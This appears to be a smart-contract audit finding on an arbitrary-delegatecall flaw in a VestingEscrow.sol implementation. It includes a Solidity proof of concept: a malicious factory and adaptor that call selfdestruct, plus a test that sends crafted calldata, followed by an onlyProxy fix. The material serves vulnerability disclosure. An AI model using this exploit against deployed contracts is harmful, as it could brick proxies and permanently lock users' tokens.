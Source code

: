 # Soucre: https://github.com/sherlock-audit/2024-01-rio-vesting-escrow-judging/issues/60

# CANNOT BE FOUND THROUGH FUZZING

### Vulnerability Summary

**Title**: Arbitrary delegatecall in the `VestingEscrow.sol` implementation

**Impact**:
- An attacker can execute a delegatecall to an arbitrary address on the `VestingEscrow.sol` implementation, potentially leading to the self-destruction of the contract and permanently locking all tokens in proxies pointing to the implementation.

### Vulnerability Details

**Description**:
- The `VestingEscrow.sol` implementation uses parameters from calldata, allowing an attacker to specify custom parameters when calling the implementation directly instead of through the designated proxy.

**Affected Functions**:
1. `initialize(bool _isFullyRevokable, bytes calldata _initialDelegateParams)`
2. `delegate(bytes calldata params)`
3. `vote(bytes calldata params)`
4. `voteWithReason(bytes calldata params)`

**Example**:
- The `delegate(bytes calldata params)` function:
  - Checks if the caller is the recipient (specified in calldata).
  - Retrieves the `VotingAdaptor` from the factory (specified in calldata).
  - Executes a delegatecall on the `VotingAdaptor`.

**Attack Scenario**:
- An attacker calls `delegate(bytes calldata params)` with crafted calldata:
  - Sets themselves as the recipient to bypass the modifier.
  - Specifies a custom factory that returns a malicious adaptor.
  - The malicious adaptor uses the `selfdestruct` opcode, destroying the `VestingEscrow.sol` implementation.

### Proof of Concept

1. **Attack Setup**:
    ```solidity
    contract SelfDestruct {
        function delegate(bytes memory params) public {
            selfdestruct(msg.sender);
        }
    }

    contract MaliciousFactory {
        address sd;
        constructor() {
            sd = address(new SelfDestruct());
        }
        function votingAdaptor() public returns (address) {
            return address(sd);
        }
    }
    ```

2. **Test Function**:
    ```solidity
    function testArbitraryDelegateCall() public {
        address maliciousFactory = address(new MaliciousFactory());
        address vestingEscrowImpl = factory.vestingEscrowImpl();
        address attacker = makeAddr("attacker");

        bytes memory craftedCalldata = abi.encodePacked(
            hex"0ccfac9e",
            hex"000000000000000000000000000000000000000000000000000000000000002000000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000000",
            address(maliciousFactory),
            hex"0000000000000000000000000000000000000000",
            address(attacker),
            hex"0000000000",
            hex"0000000000",
            hex"0000000000",
            hex"0000000000000000000000000000000000000000000000000000000000000000",
            hex"006d"
        );

        vm.prank(attacker);
        (bool success, bytes memory data) = vestingEscrowImpl.call(craftedCalldata);
    }
    ```

### Impact

- If the attacker executes the `selfdestruct` opcode via a malicious adaptor, all proxies pointing to the destructed implementation would be bricked, and all tokens would be permanently locked.

### Tools Used

- Manual review

### Recommendation

- Implement an `onlyProxy()` modifier in the `VestingEscrow.sol` implementation to ensure that the function is only executed through a delegatecall.

**Example**:
```solidity
modifier onlyProxy() {
    require(address(this) != implementationAddress, "Function must be called through delegatecall");
    _;
}
```

 